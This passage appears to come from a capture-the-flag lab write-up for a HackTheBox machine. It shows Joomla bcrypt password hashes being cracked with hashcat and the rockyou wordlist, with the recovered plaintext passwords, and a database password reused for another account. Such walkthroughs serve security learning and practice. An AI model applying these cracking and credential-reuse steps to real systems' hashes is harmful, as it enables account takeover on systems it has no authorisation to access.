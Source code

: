     oxdf@hacky$ cat joomla.hashes 
    lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
    logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
    

### Crack Hashes

I’ll pass this file to `hashcat` along with the `rockyou.txt` wordlist. It
starts in auto-detect mode, but fails as there are multiple possible matches:

    
    
    oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    
    The following 4 hash-modes match the structure of your input hash:
    
          # | Name                                                       | Category
      ======+============================================================+======================================
       3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
      25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
      25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
      28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
    
    Please specify the hash-mode with -m [hash-mode].
    ...[snip]...
    

Unless I know otherwise, it’s always worth trying basic bcrypt (3200). I can
also start in the background registering an account and then fetching the
password to try to crack it with different modes to see which it is. But I
won’t need that here as 3200 works rather quickly for logan’s hash:

    
    
    oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user -m 3200
    hashcat (v6.2.6) starting
    ...[snip]...
    $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
    

I’ll kill this and try the DB password for lewis, and it works:

    
    
    oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes sqlpass --user -m 3200
    hashcat (v6.2.6) starting
    ...[snip]...
    $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u:P4ntherg0t1n5r3c0n##
    ...[snip]...
    

### su / SSH
